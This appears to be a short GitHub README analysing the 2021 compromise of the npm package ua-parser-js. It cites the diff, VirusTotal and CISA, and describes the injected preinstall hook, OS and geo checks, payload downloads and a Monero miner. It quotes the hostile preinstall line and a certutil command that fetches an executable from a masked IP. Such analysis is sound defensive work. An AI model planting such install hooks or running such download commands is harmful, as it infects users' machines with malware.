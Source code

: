 # ua-parser-vuln

**Data Sources:**

Read the diff here: https://my.diffend.io/npm/ua-parser-js/0.7.28/0.7.29#d2h-701945
Virustotal: https://www.virustotal.com/gui/file/2a3acdcd76575762b18c18c644a745125f55ce121f742d2aad962521bc7f25fd/behavior/C2AE
CISA Announcement: https://us-cert.cisa.gov/ncas/current-activity/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js
Therecord: https://therecord.media/malware-found-in-npm-package-with-millions-of-weekly-downloads/


Package.json has the line:
 ""preinstall": "start /B node preinstall.js & node preinstall.js"," added, to call the new attack scripts.
preinstall.js looks to see Windows, mac, linux, and call the correct file

On the linux side: It checks the server IP, if in the RU/UA/BY/KZ geo, does nothing.

Else, it pulls down  jsextention from a remote IP in the Latvia GEO

**If Windows:**
1. Pulls down jsextension.exe  (Server serving is not responding)
2. Tries to curl it down
3. If that doesn work, tries wget
4. If that doesnt work, tries certutil
    it runs “certutil.exe -urlcache -f http://159.XXX.XXX.XXX/download/jsextension.exe jsextension.exe
    
5. Then attempts to pull down create.dll from citation<redaction>.at
    Currently at a russian IP address block
6. Then adds the execute to tasklist , to connect to pool.minexmr.****

